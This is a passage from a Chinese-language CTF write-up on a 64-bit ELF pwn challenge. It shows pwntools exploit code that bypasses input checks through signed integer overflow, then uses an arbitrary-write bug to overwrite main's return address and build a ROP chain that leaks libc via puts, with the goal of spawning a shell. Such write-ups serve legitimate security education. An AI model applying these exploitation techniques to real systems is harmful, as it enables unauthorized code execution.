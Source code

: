 测试成功，没有提示 `You get the wrong key!`。

回到 `main()`，接着往下看：

![](https://i.loli.net/2018/12/04/5c0692f2ec98b.png)

先测试 `sub_4006C6` 的返回值是否等于 `v16`，等于才继续运行。再测试 `buf_int + v16` 是否小于等于 `4`，是则继续运行。这里 `v16` 是一个预设值，等于 `0x20633372`。进入 `sub_4006C6` 分析：

![](https://i.loli.net/2018/12/04/5c0692f320e3e.png)

先读 4 字节到 `buf` 里（这个 `buf` 是局部变量，不是刚才那个），将其解释为 `int` 存到 `v5` 中，这个数决定接下来的循环次数。然后如果 `v5 > 4`，进入循环，循环 `v5` 次，每次尝试读取 4 字节到 `buf` 中，如果读到 4 字节，则把这 4 字节解释为 `int` 加到 `v7` 上，如果不足 4 字节就啥都不做，进入下一次循环。最后函数的返回值是 `v7` 的内容，也就是说我们只要让 `v7` 等于 `0x20633372` 就 OK 了，而这只要每次循环中输入的数相加等于它就能做到。循环次数 `v5` 必须大于 4，这里有两种做法：一是第一次输入 `0x20633372`，后面几次输入 `0`，二是第一次输入 `0x20633372`，后面几次输入不足 4 字节。我们采取后者。

```python
	p.recvuntil('have?\n')
	p.send('\x05\x00\x00\x00')
	p.recvuntil('is: \n')
	p.sendline('\x72\x33\x63\x20')
	for _ in range(3):
		p.recvuntil('is: \n')
		p.sendline('\x01\x01')
```

回到 `main()`，接着看下一个检查：测试 `buf_int + v16` 是否小于等于 `4`，是则继续运行。`v16` 是固定的预设值，我们只能通过改变开始输入的 `buf_int` 来满足这一要求，由于二者都是有符号 32 位整数，只要让二者相加溢出绕回到负数即可，我们开头选择的 `\x1e\x28\x7a\x61` 正好满足要求（`0x617a281e` + `0x20633372` <= 4）。

然后进入 `main()` 最后也是最重要的一段逻辑：

![](https://i.loli.net/2018/12/04/5c0692f84e3d6.png)

这也太直白了，直接给了你任意地址写漏洞... 可以想到接下来的事就是常规套路：泄露 libc 地址，查 libc 版本，计算 `system` 和 `/bin/sh` 字符串地址，跳到 `system` 获得 shell。

首先，泄露 libc 地址。程序里有 `puts`，就用它了，调用 `puts(puts_got);` 就能泄露出其真实地址。得解决两个问题：1. 怎么给 `puts` 传参；2. 怎么跳到 `puts`。问题一答案是 ROP，这是 64 位 ELF，用寄存器传参，找到 `pop rdi; ret;` 这样的 gadget，任意地址写把参数写到栈上，跳到 gadget 就可以传参，问题二答案是任意地址写覆盖 `main()` 返回地址。

先把参数写到栈上，参数是 `puts` 的 GOT 表地址，可以用 `objdump` 获得，注意任意地址写写入的地址是 `我们输入的地址 + &v9`，也就是说我们要输入的应该是 v9 到目标地址的距离，这个距离每次运行都是不会变的，动态调试加计算一下就能得出。用 ROPgadget 找到 `0x400b13` 处有 `pop rdi; ret;`，我们先覆盖 `main()` 返回地址，再布置参数，再布置 `puts` 的 PLT 地址，就能实现传参并跳到 `puts`。这部分代码如下：

```python
def write(offset, data):
	p.recvuntil('modify?\n')
	p.send(p32(offset))
	p.recvuntil('write in?\n')
	p.send(data)

p.send('\x15\x00\x00\x00') # 发送要写入的字节总个数
write(0x38, '\x13')
write(0x39, '\x0b')
write(0x3a, '\x40')
write(0x3b, '\x00')
write(0x3c, '\x00')
write(0x3d, '\x00') # gadget 地址
write(0x40, '\x18')
write(0x41, '\x20')
write(0x42, '\x60') # puts_got
write(0x48, '\x50')
write(0x49, '\x05')
write(0x4a, '\x40')
write(0x4b, '\x00')
write(0x4c, '\x00')
write(0x4d, '\x00') # puts_plt
```